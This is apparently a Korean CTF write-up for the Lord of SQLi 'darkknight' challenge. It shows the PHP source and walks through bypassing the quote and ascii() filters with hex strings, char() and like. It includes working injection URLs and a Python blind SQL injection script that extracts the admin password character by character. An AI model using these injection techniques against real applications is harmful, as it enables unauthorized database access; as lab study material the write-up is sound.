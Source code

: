 # LOS - darknight

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

매번 bypass를 할 때마다 전에 사용했더 방법을 사용할 수 없게 조건이 걸리는 듯하다. 

많은 조건이 걸려있어서 일일이 다 설명하기 어려우므로 bypass에 걸림돌이 되는 '(quote)와 새로운 조건인 ascii함수를 어떻게 우회했는지만 설명하도록 한다.

사실 '(quote)는 전에 문자열을 hex값으로 인코딩하여 우회한 적이 있다. 그 방법을 그대로 사용하였고 ascii함수를 사용할 수 없어서 고생을 많이 했는데 어쨋든 문자를 비교하여 같은지 아닌지를 판단하는 것이므로 문자열을 비교할 수 있는 새로운 함수를 찾아냈다.

새로 찾은 함수는 char라는 함수인데 아래와 같이 사용한다.

```
char(interger_expression) => character value
```

사실 ascii와 반대라고 생각하면 되는데 ascii는 문자를 받아서 숫자로 변경해주는 반면 char는숫자를 받아서 문자로 돌려준다. 지금까지 사용하던 코드를 조금만 손 보면 역시 답을 찾을 수 있을 것이다. 코드를 손보기 전에 어떤식으로 입력이 가능한지 테스트를 먼저 해보자.

```url
https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?no=1||true
```

일단 그냥 pw말고 no에 아무 값이나 넣어주고 or true를 걸어주어보니 

"Hello guest"

라는 문자를 만날 수 있었다. 그럼 이제 like 함수로 pw의 length를 구할 수 있는지 확인해 보자.

```url
https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?no=1%20||%20length(pw)%20like%208
```

지금까지 모든 pw는 8자였음으로 8을 넣어주었는데 역시 

"Hello admin"

이라는 문자를 만나면서 pw의 length는 8이 true임을 확인할 수 있었다.  그럼 이제 마지막으로 id에 'admin'이라는 문자열을 인코딩해 넣어주는 것이 역시 true로 작동하는지 확인하도록 한다.

```url
https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?no=1%20||%20id%20like%200x61646d696e%20%26%26%20length(pw)%20like%208
```

"Hello admin"

이라는 문자를 만났다. 이제 코드를 바꿔서 pw를 알아내보자.

```python	
import requests
cooki = {'PHPSESSID': "otscuf8q15lrb320f1jnkt8c9j"}
url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?"
i = 1
key = "Hello admin"
pw_len = 0
while True:
    params = {'no': "1||length(pw) like "+str(i)+"#"} #pw의 길이를 구하는 부분
    res = requests.get(url, params, cookies=cooki)
    #print res.text
    if key in res.text:
        pw_len = i
        break
    i = i + 1
    print i
print pw_len
for j in range(1,pw_len+1):
    for k in range(48, 123):
        if 58 <= k < 65:
            continue
        if 91 <= k < 97:
            continue
        params = {'no': "1 || id like 0x61646d696e && (left(right(pw,"+str(j)+"),1)) like char("+str(k)+")#"} #pw를 한 글자씩 맞춰보는 부분
        res2 = requests.get(url, params, cookies=cooki)
        #
        if key in res2.text:
            print str(j) + " : " + chr(k)
```

코드에서 바뀐 부분은 parameter로 인자들을 넘겨주는 부분뿐이다. 거기서 중요한 것은 left와 right함수 앞에 있던 ascii함수가 없어져 pw에서 빼온 문자와 숫자를 문자로 바꾼 것을 비교해 체크하는 방식으로 바뀌었다는 것이다.

```
8
1 : F	1 : f
2 : 1
3 : A	3 : a
4 : E	4 : e
5 : 0
6 : 7
7 : B	7 : b
8 : 0
```

결과는 다음과 같이 나왔는데 같은 영문자는 대 소문자 모두 걸리는 것을 확인할 수 있었다. 그래서 pw는 대소문자를 구분하지 않는다고 가정하고 거꾸로 입력해 보았다.

![1565694284949](C:\Users\qkrwl\Documents\web\los\LOS - darknight-clear.png)


